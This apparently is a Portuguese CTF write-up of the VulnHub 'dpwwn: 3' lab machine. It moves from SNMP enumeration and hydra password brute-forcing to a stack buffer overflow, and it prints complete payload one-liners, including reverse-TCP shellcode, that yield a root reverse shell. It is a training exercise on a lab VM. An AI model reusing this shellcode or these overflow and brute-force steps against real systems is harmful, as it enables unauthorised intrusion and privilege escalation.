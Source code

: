 ```yaml
---
title: 'VulnHub dpwwn: 3'
excerpt: "Desafio CTF <strong><a href=''>VulnHub dpwwn: 3</a></strong> Realizado para aprendizado sobre conceitos de segurança da informação."
date: 2019-09-04 17:08:43
tags:
cover: https://cdn-images-1.medium.com/max/800/1*SnTSI7XJVVSEbtQ_Oov1Vw.png
cover_creditos:
default_cover:
---
```


Hello friends.

### Informações sobre o Alvo.

A flag esta em /root/dpwwn-03-FLAG.txt

### Reconhecimento / Enumeração.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*SnTSI7XJVVSEbtQ_Oov1Vw.png" alt="">
      <figcaption></figcaption>
    </figure>

netdiscover

O ip do alvo é o 192.168.1.6

Usando “nmap” para lista portas e serviços e verificar se há alguma vulnerabilidade.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*Ab8IjcenPVBICCGnxHOKIw.png" alt="">
      <figcaption></figcaption>
    </figure>

nmap

Achamos uma porta “snmp” aberta e vamos usar o snmpwalk para verificar se obtemos alguma informação interessante.

> O SnmpWalk permite detectar um conjunto de variáveis ​​disponíveis para leitura em um dispositivo individual. Você pode obter uma lista completa ou apenas parte.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*3SIG-mlA6i6j1x9dsYRscA.png" alt="">
      <figcaption></figcaption>
    </figure>

snmpwalk

Encontramos algo que nos interessa, um possível usuário “john <john@dpwwn-03>” e também uma dica para a senha “john room”.  
Vamos gerar uma pequena wordlist com o John the Ripper.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*wccbilWDvcpwo2d8IB0j_A.png" alt="">
      <figcaption></figcaption>
    </figure>

John the Ripper.

Depois de criar a wordlist vamos usar o hydra para testar a wordlist gerada.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*5b0P3iyh6y1SYVmMlqfTEQ.png" alt="">
      <figcaption></figcaption>
    </figure>

hydra.

Temos um usuário e uma senha valida.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*kQjBctnF4ruIHw9HK5ynCw.png" alt="">
      <figcaption></figcaption>
    </figure>

ganhado acesso ao servidor.

Podemos executar apenas um comando com “sudo”.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*9Ef43Gevswev7ZHjVwnUqQ.png" alt="">
      <figcaption></figcaption>
    </figure>

ss.sh

Ao verificar o arquivo “ss.sh” notamos que não podemos modificar o “PATH” e o “SHELL” só nos resta explorar o “smashthestack”.  
Depois de alguns testes conseguimos sobrescrever o endereço de retorno da função “vulncode” o payload esta logo abaixo.

> (python -c ‘print “A”\*732+”B”\*4+”C”\*4’;cat) | nc 127.0.0.1 3210

Para seguir com a exploração tive que abrir 3 terminais, um para o “gdb”, mais um para o “netcat” e outro para enviar o payload.  
Adicionei um **breakpoint** no endereço de retorno da “vulncode”, para depois analisar o que esta acontecendo na pilha.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*JjBpWOI4_xwDIKKNk8CdWA.png" alt="">
      <figcaption></figcaption>
    </figure>

gdb

Depois de enviar o payload e cair no breakpoint, eu verifiquei que o “0x42424242” são os meus 4 “B” que foi enviado no payload, e tambem que ele esta no topo da pilha, coso eu continue o programa vamos receber um “Segmentation fault” pois não existe o endereço de memória “0x42424242”.

Precisamos agora procurar um shellcode reverso, já que na execução do script “ss.sh” ele executa em background o “smashthestack”.

[**Linux/x86 - Shell Reverse TCP Shellcode - 74 bytes**  
_\* Title: Shell Reverse TCP Shellcode - 74 bytes \* Platform: Linux/x86 \* Date: 2014-07-25 \* Author: Julien Ahrens…_shell-storm.org](http://shell-storm.org/shellcode/files/shellcode-883.php "http://shell-storm.org/shellcode/files/shellcode-883.php")[](http://shell-storm.org/shellcode/files/shellcode-883.php)

O nosso payload teve algumas modificações, 0xbffff220 vai sobrescrever nosso endereço de retorno e apotar para o “\\x90”, os “\\ x90” informam ao programa para passar à próxima instrução até chegar no nosso shellcode de 74 bytes.

> (python -c ‘import struct; print “A”\*732+struct.pack(“<I”, 0xbffff220)+”\\x90"\*20+”\\x6a\\x66\\x58\\x6a\\x01\\x5b\\x31\\xd2\\x52\\x53\\x6  
> a\\x02\\x89\\xe1\\xcd\\x80\\x92\\xb0\\x66\\x68\\x7f\\x01\\x01\\x01\\x66\\x68\\x05\\x39\\x43\\x66\\x53\\x89\\xe1\\x6a\\x10\\x51\\x52\\x89\\xe1\\x43\\xcd\\x80\\x6a\\x02\\x59\\x87\\xda\\xb0\\x3f\\xcd\\x80\\x49\\x79\\xf9\\xb0\\x0b\\x41\\x89\\xca\\x52\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\xcd\\x80"’;cat) | nc 127.0.0.1 3210

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*zVXBE-aoc_lJ483C_JYcgw.png" alt="">
      <figcaption></figcaption>
    </figure>

gdb

Depois de rodar nosso payload, verificamos novamente a pilha e tudo esta como nos planejamos, e damos continuidade a nosso programa.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*716I4Hg6iMKcuszQNhoxHA.png" alt="">
      <figcaption></figcaption>
    </figure>

netcat.

A nossa shell reversa funciona :)  
Como já era previsto tive que ajustar o endereço de retorno com mais 5 bytes passando o endereço 0xbffff220 para 0xbffff225.

> (python -c ‘import struct; print “A”\*732+struct.pack(“<I”,0xbffff220+5)+”\\x90"\*20+”\\x6a\\x66\\x58\\x6a\\x01\\x5b\\x31\\xd2\\x52\\x53\\x6a\\x02\\x89\\xe1\\xcd\\x80\\x92\\xb0\\x66\\x68\\x7f\\x01\\x01\\x01\\x66\\x68\\x05\\x39\\x43\\x66\\x53\\x89\\xe1\\x6a\\x10\\x51\\x52\\x89\\xe1\\x43\\xcd\\x80\\x6a\\x02\\x59\\x87\\xda\\xb0\\x3f\\xcd\\x80\\x49\\x79\\xf9\\xb0\\x0b\\x41\\x89\\xca\\x52\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\xcd\\x80"’;cat) | nc 127.0.0.1 3210

Vamos executar o programa com “sudo”.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*xh1Dcr_I160MBOV3vsMiqQ.png" alt="">
      <figcaption></figcaption>
    </figure>

sudo.

Recebemos uma nova conexão, e agora somos root no sistema basta manter o acesso.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*RhifNqHPdRsrIG_wOq0JdQ.png" alt="">
      <figcaption></figcaption>
    </figure>

root

Se você chegou até aqui e não entendeu o que é um payload, breakpoint, shellcode, shell reversa etc. Tem um playlist no [**Papo Binário**](https://www.youtube.com/watch?v=Ps3mZWQz01s&list=PLIfZMtpPYFP4MaQhy_iR8uM0mJEs7P7s3) que pode te ajudar.

Até a próxima.
